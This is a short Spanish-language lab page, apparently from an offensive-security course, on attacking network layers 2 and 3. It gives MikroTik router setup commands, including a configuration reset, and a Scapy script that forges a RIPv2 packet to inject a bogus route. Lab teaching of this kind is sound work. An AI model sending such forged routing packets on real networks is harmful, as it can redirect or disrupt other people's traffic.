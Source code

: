 ```yaml
---
theme: "just-the-docs"
title: "Explotacion Capa 2 y 3"
layout: default
nav_order: 19
parent: "Seguridad Ofensiva"
---
```

# Explotacion Capa 2 y 3
## Configuracion Mikrotik
Opcionalmente si quieres borrar el mikrotik se puede usar el siguiente comando:
```
system reset-configuration
```
Para revisar las IPs en Mikrotik
```
ip add print
```
Configuracion de interface bridge, asignacion de IP y configuracion de RIP
```
interface bridge add name=bridge1
interface bridge port add bridge=bridge1 interface=ether1
ip dhcp-client add disabled=no interface=bridge1
routing rip interface add send=v1-2
routing rip network add network=192.168.85.0/24
```
Revision de la tabla de rutas
```
ip route print
```
## Creacion de script para inyeccion de rutas con RIP
```
from scapy.all import *
PDU = Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type="IPv4")
PDU /= IP(tos=192,ttl=2,proto=17,src="192.168.85.100",dst="224.0.0.9")
PDU /= UDP(sport=520, dport=520)
PDU /= RIP(cmd=2,version=2)
PDU /= RIPEntry(AF=2, RouteTag=1354, addr="2.0.0.0", mask="255.0.0.0", nextHop="0.0.0.0", metric=1)
sendp(PDU)
```
